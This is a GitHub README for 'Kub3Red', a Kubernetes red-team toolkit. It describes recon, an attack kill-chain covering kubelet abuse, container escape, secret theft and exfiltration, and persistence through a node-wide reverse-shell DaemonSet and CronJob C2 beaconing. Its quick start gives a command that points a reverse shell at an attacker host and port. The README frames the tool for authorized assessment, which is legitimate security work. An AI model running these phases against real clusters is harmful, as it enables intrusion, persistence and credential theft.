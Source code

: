 
# Kub3Red


**Kub3Red** – Kubernetes Red Team & Exploitation Toolkit (multi-cloud)

Kub3Red is a powerful, modular red team framework designed to assess, exploit, and persist in Kubernetes environments across cloud providers (AKS, EKS, GKE, OpenShift, self-hosted).

---

## ✨ Features

- 🔍 **Recon & Enumeration**
  - Namespaces, Pods, Services, Secrets, RBAC, ConfigMaps, NetworkPolicies, etc.
  - `kubectl auth can-i` checks
  - Pod/Node IP and port scanning
  - Container and Node-level service detection

- 🔥 **Attack Phases**
  - `phase` based kill-chain: prep, recon, kubelet, misconfig, secrets, escape, exfil
  - Full chain via `--all`, `--all-extended`, or `--fast`

- 🎯 **Persistence**
  - Reverse shell via DaemonSet to all nodes
  - CronJob C2 beaconing
  - Full cleanup of artifacts

- ⚙️ **Extended Modules**
  - Admission controller abuse
  - Aggregated APIs, quotas, event logs, Prometheus detection
  - Runtime abuse detection
  - Cloud IMDS token abuse and potential cloud privilege escalation

- 💾 **CSV Exporting**
  - All recon results can be exported for professional reporting

---

## 🚀 Quick Start

```bash
# Basic recon
python __main__.py --nodes --pods --services --csv

# Run entire attack chain
python __main__.py --all

# Run full extended attack + recon chain
python __main__.py --all-extended --csv

# Reverse shell test
python __main__.py --phase persist --lhost 10.10.10.10 --lport 443
```

---

## ⚠️ Disclaimer

Kub3Red is provided for **educational and authorized security assessment purposes only**.  
**Do not use this tool on environments you do not have permission to assess.**

---

## 📦 Requirements

- Python 3.8+
- Packages:
  - `kubernetes`
  - `requests`
  - `pyfiglet`
  - `rich`
  - `termcolor`
  - `tabulate`

Install all requirements:

```bash
pip install -r requirements.txt
```

---

## 📂 Project Structure

```
Kub3Red/
├── __main__.py          # Entry point & CLI parser
├── api_enum.py          # All API recon functions
├── phases.py            # Attack chain modules
├── utils.py             # Shared logging, YAML, exec
├── requirements.txt     # Python dependencies
└── README.md            # This file
```

---

## 📖 Documentation

More usage details and module descriptions coming soon.

For now, run `python __main__.py -h` to see detailed CLI help.

---

Made with ❤️ by red team operators.

